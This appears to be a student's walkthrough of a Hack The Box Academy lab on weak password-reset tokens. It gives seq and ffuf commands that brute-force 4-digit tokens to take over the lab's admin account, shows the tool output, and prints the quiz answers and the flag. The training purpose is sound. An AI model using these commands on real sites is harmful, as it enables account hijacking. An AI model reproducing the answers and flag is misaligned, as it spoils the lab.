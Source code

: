 ﻿Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.

As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account.

---

## Identifying Weak Reset Tokens

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowledge of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequential steps; a basic password reset flow is shown below:

![image](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_1.png)

To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. In this example, let us assume we have received the following password reset e-mail:

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

As we can see, the password reset link contains the reset token in the GET-parameterÂ `token`. In this example, the token isÂ `7351`. Given that the token consists of only a 4-digit number, there can be onlyÂ `10,000`Â possible values. This allows us to hijack users' accounts by requesting a password reset and then brute-forcing the token.

---

## Attacking Weak Reset Tokens

We will useÂ `ffuf`Â to brute-force all possible reset tokens. First, we need to create a wordlist of all possible tokens fromÂ `0000`Â toÂ `9999`, which we can achieve withÂ `seq`:

```bash
smoothment@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

TheÂ `-w`Â flag pads all numbers to the same length by prepending zeroes, which we can verify by looking at the first few lines of the output file:

```bash
smoothment@htb[/htb]$ head tokens.txt

0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
```

Assuming that there are users currently in the process of resetting their passwords, we can try to brute-force all active reset tokens. If we want to target a specific user, we should send a password reset request for that user first to create a reset token. We can then specify the wordlist inÂ `ffuf`Â to brute-force all active reset-tokens:


```bash
smoothment@htb[/htb]$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"

<SNIP>

[Status: 200, Size: 2667, Words: 538, Lines: 90, Duration: 1ms]
    * FUZZ: 6182
```

By specifying the reset token in the GET-parameterÂ `token`Â in theÂ `/reset_password.php`Â endpoint, we can reset the password of the corresponding account, enabling us to take over the account:

![](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_2.png)

# Questions
---

![Pasted image 20250214152014.png](../../../../IMAGES/Pasted%20image%2020250214152014.png)

The answers for the first three questions are:

```ad-note
1. `one-time reset token`
2. `-w`
3. `1000000`
```

Now, let's go to the web application:

![Pasted image 20250214160759.png](../../../../IMAGES/Pasted%20image%2020250214160759.png)

We got a login functionality, we can reset out password, let's check it out:

![Pasted image 20250214160832.png](../../../../IMAGES/Pasted%20image%2020250214160832.png)

As seen, we are redirected to `/reset.php`, the input is not properly sanitized, which means, we could send a password reset for other users, for example, let's send a password reset for `admin`:

![Pasted image 20250214161036.png](../../../../IMAGES/Pasted%20image%2020250214161036.png)

If we try going to `/reset_password.php`, we get the following:

![Pasted image 20250214161111.png](../../../../IMAGES/Pasted%20image%2020250214161111.png)

So, we need a token, we can try brute-forcing the token using the following, first, let's generate a sequence of tokens from `0000` to `9999`, which is the maximum length of 4 digits tokens:


```bash
seq -w 0 9999 > tokens.txt
```

Once we got our `tokens.txt` file, we can use ffuf:

```
ffuf -w tokens.txt -u "http://IP:PORT/reset_password.php?token=FUZZ" -fr "The provided token is invalid" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w ./tokens.txt -u "http://94.237.54.164:33815/reset_password.php?token=FUZZ" -fr "The provided token is invalid" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.54.164:33815/reset_password.php?token=FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/tokens.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: The provided token is invalid
________________________________________________

6583                    [Status: 200, Size: 2920, Words: 596, Lines: 92, Duration: 3672ms]
```

Got our token:

```
6583
```

Now, let's visit the following URL:

```
http://IP:PORT/reset_password.php?token=6583
```

We'd see this:

![Pasted image 20250214161805.png](../../../../IMAGES/Pasted%20image%2020250214161805.png)

We are able to reset the password, let's simply do the following credentials:

```ad-note
`admin`:`password`
```

Now we can log in:

![Pasted image 20250214162106.png](../../../../IMAGES/Pasted%20image%2020250214162106.png)

![Pasted image 20250214162128.png](../../../../IMAGES/Pasted%20image%2020250214162128.png)

Flag is:

```
HTB{36da098385e641d54e1b2750721d816e}
```
